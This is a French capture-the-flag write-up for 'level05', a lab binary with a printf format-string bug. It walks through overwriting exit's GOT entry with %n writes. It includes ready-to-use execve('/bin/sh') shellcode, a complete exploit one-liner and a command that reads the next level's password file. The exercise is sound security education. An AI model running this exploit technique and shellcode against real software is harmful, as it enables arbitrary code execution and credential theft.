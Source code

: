 ## level05
- L'examen du [code source décompilé](/level05/source.c) confirme nos premiers tests avec le binaire : celui-ci se contente de lire sur l'entrée standard (avec `fgets`) avant de réafficher l'entrée en minuscule (avec `printf`). Mais tout comme dans le [niveau 2](/level02/Ressources/README.md), l'appel à `printf` est mal formaté. Ce qui veut dire qu'il sera possible d'utiliser `%n` pour écrire des données arbitraires à une adresse voulue.
- Nous allons injecter un *shellcode* dans l'environnement et remplacer l'adresse de `exit` dans la [*Global Offset Table*](https://en.wikipedia.org/wiki/Global_Offset_Table) par l'adresse de ce dernier :
    - `objdump -TR level05` nous donne l'adresse de `exit()` => `080497e0`. Toutefois, nous ne pourrons réécrire que 4 octets à la fois, il faudra donc réécrire l'adresse en deux fois : d'abord les octets de poid faible (`\xe0\x97\x04\x08`), puis les octets de poids fort (`\xe2\x97\x04\x08`).
    - `python -c 'print "AAAA" + "%08x|" * 15' | ./level05` nous permet de voir que  l'index de `buff` dans la pile se trouve à la dixième position (`61616161` est la valeur ASCII de `aaaa`). On va commencer à réécrire avec le paramètre `%10$08hn` (et continuer avec `%11$08hn`).
- Au final :
    - on exporte notre [*shellcode*](http://shell-storm.org/shellcode/files/shellcode-575.php) : `export SHELLCODE=$(python -c 'print "\x90"*1024 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')`
    - On en retrouve l'adresse dans l'environnement depuis `gdb` avec `x/10s *((char **)environ)` => `0xffffd9de`. On va décaler cette adresse de 256 octets (`0xffffdade`) pour prendre en compte la différence d'environnement lors de l'exécution en dehors de `gdb`.
    - La réécriture de l'adresse se fera en deux temps, en commençant par la fin (*little-endian* oblige) :
        1. Notre adresse finit par `0xdade`, il faudra donc écrire 56 030 caractères. Mais comme on écrit déjà 8 caractères avec les deux adresses de `exit`, il ne restera plus que 56 022 caractères à écrire.
        2. Notre adresse commençant par `0xffff`, il faut que l'on écrive en tout 65 535 caractères. Comme on en aura déjà écrit 56 030, il n'en restera plus que 9 505 à écrire.
- Notre exploit aura la forme : `(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56022x" + "%10$08hn" + "%9505x" + "%11$08hn"' ; cat -) | ./level05`. On obtient le flag avec `cat /home/users/level06/.pass`.